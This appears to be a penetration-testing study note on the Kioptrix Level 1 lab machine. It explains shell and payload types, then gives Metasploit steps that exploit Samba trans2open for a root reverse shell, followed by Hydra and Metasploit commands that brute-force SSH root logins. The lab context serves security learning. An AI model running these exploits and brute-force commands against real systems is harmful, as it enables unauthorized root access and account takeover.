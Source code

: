 
* shell : gives access to a machine

* Reverse Shell :type of shell that establishes a connection from the target system to the attacker's machine. This is typically done by running a Netcat listener on the attacker's machine and running a Netcat client on the target system that connects back to the listener **The advantage of a Netcat reverse shell is that it can bypass firewalls and other network security measures that might block incoming connections.**

* Blind Shell: we open a port on a target machine and then connects to it
* Non-staged payload - sends exploit shellcode all at once; larger; does not always work. For example, windows/meterpreter_reverse_tcp.
* Staged payload - sends payload in stages; less stable. For example, windows/meterpreter/reverse_tcp.
* Gaining Root with metasploit :
```
msfconsole

search trans2open #name of exploit for Samba

use 1 #use exploit/linux/samba/trans2open

options

set RHOSTS 10.0.2.4

show targets #only one (selected) option, Samba 2.2.x

exploit
#does not work due to default payload (staged), so we stop the process and change our payload to non-staged

set payload linux/x86/shell_reverse_tcp
#similar to previous one, but non-staged

options

exploit
#this gives us shell access of root

whoami
#root

hostname
#kioptrix.level1
```

*  Brute Force Using Hydra:

```#using Hydra

hydra -l root -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt ssh://10.0.2.4 -t 4 -V
#we want to attack root using unix_passwords.txt wordlist in 4 threads; -V is for verbosity
```

```
#using Metasploit

msfconsole

search ssh

use auxiliary/scanner/ssh/ssh_login

options

set username root

set pass_file /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt

set rhosts 10.0.2.4

set threads 5

set verbose true

exploit
```

* Credential stuffing - Injecting breached account credentials in hopes of account takeover; we can do this using Intruder window in Burp Suite.
* Password spraying - Brute force logins based on list of usernames and common passwords; similar to credential stuffing.
